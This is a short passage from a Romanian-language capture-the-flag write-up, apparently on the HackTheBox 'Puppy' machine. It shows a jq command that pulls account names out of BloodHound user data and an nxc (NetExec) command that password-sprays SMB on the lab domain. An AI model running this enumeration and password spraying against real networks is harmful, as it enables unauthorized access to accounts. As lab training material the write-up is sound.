 Fig. 16

Si acum vom colecta toti userii din datele de pe bloodhound. 

*jq -r '.data[] | .Properties.samaccountname // empty' 20251005041029_users.json \
| tr '[:upper:]' '[:lower:]' | sort -u > users_all.txt*

![Fig. 17](./image-16.png)

Fig. 17

Pentru a face spray attack, o sa utilizam nxc cu aceasta lista de uesri si lista de parole facuta. 

*nxc smb 10.10.11.70 -d PUPPY.HTB -u users_all.txt -p pass.txt --continue-on-success -t 1000*

![Fig, 18](./image-17.png)
